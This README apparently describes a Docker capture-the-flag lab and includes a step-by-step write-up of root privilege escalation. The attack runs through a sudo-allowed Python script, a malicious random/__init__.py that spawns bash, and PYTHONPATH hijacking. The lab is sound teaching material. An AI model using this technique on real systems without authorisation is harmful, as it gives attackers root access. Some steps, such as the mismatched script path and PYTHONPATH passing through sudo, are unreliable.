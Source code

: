 # Library Hijacking CTF Challenge

## 🏴 Challenge Overview
Welcome to the **Library Hijacking CTF** challenge! This is a beginner-to-intermediate level machine-based CTF where the attacker needs to escalate privileges by exploiting a misconfigured Python script that runs with root privileges.

---

## 🎯 Objective
Your goal is to gain **root access** by exploiting a Python library hijacking vulnerability. You will connect to the machine using **SSH**, enumerate the system, and escalate privileges to obtain a root shell.

---

## 🛠 Setup
This challenge runs inside a **Docker container**. To deploy it, use the following commands:
```bash
docker pull e51am/ctf
docker run -dit --name library_hijacking_ctf -p 2222:22 e51am/ctf
```

Once the container is running, you can SSH into the machine using:
```bash
ssh ctfuser@localhost -p 2222
Password: password
```

---

## 📌 Hints
- Use `sudo -l` to check for **executable scripts with sudo privileges**.
- Find out which **libraries** the vulnerable script imports.
- Hijack the **imported library** to execute arbitrary code.

---

> # Writeup

## 🔍 Enumeration & Exploitation

### 1️⃣ **Initial Access**

- The attacker discovers **credentials** for SSH login:**Username:** `ctfuser`**Password:** `password`
- Using the credentials, they connect via SSH:
    
    ```bash
    ssh ctfuser@localhost -p 2222
    
    ```
    

### 2️⃣ **Privilege Escalation - Enumerating sudo Permissions**

- Running the following command reveals a **sudo misconfiguration**:
    
    ```bash
    sudo -l
    
    ```
    
- Output:
    
    ```
    (ALL) NOPASSWD: /usr/bin/python3 vulnerable_script.py
    
    ```
    
- This means `ctfuser` can execute `vulnerable_script.py` **as root** without a password.

### 3️⃣ **Analyzing the Vulnerable Script**

- Checking the contents of `/opt/scripts/vulnerable_script.py`:**Output:**
    
    ```bash
    cat /opt/scripts/vulnerable_script.py
    
    ```
    
    ```python
    import random
    choices = ["Rock", "Paper", "Scissors"]
    computer = random.choice(choices)
    player = False
    cpu_score = 0
    player_score = 0
    while True:
      player = input("Rock, Paper or  Scissors?").capitalize()
      ## Conditions of Rock,Paper and Scissors
      if player == computer:
          print("Tie!")
      elif player == "Rock":
          if computer == "Paper":
              print("You lose!", computer, "covers", player)
              cpu_score+=1
          else:
              print("You win!", player, "smashes", computer)
              player_score+=1
      elif player == "Paper":
          if computer == "Scissors":
              print("You lose!", computer, "cut", player)
              cpu_score+=1
          else:
              print("You win!", player, "covers", computer)
              player_score+=1
      elif player == "Scissors":
          if computer == "Rock":
              print("You lose...", computer, "smashes", player)
              cpu_score+=1
          else:
              print("You win!", player, "cut", computer)
              player_score+=1
      elif player=='End':
          print("Final Scores:")
          print(f"CPU:{cpu_score}")
          print(f"Plaer:{player_score}")
          break
    
    ```
    
- The script imports **random**, which we can **hijack**!

### 4️⃣ **Exploiting Library Hijacking**

- We create a **malicious version** of `random.py` in `/tmp`:
    
    ```bash
    mkdir -p /tmp/random
    echo 'import os; os.system("/bin/bash")' > /tmp/random/__init__.py
    
    ```
    
- Set the `PYTHONPATH` to prioritize our malicious library:
    
    ```bash
    PYTHONPATH=/tmp sudo /usr/bin/python3 /opt/scripts/vulnerable_script.py
    
    ```
    
- This spawns a **root shell**! 🎉

---

## 🏆 Capture the Flag

Once you gain root access, find the flag inside:

```bash
cat /root/flag.txt

```

---

## 🚀 Conclusion
This challenge teaches **privilege escalation via Python library hijacking**, a common misconfiguration found in real-world scenarios. Happy hacking! 🏴‍☠️

---

## 📜 Disclaimer
This challenge is for **educational purposes only**. Do not attempt these techniques on unauthorized systems!

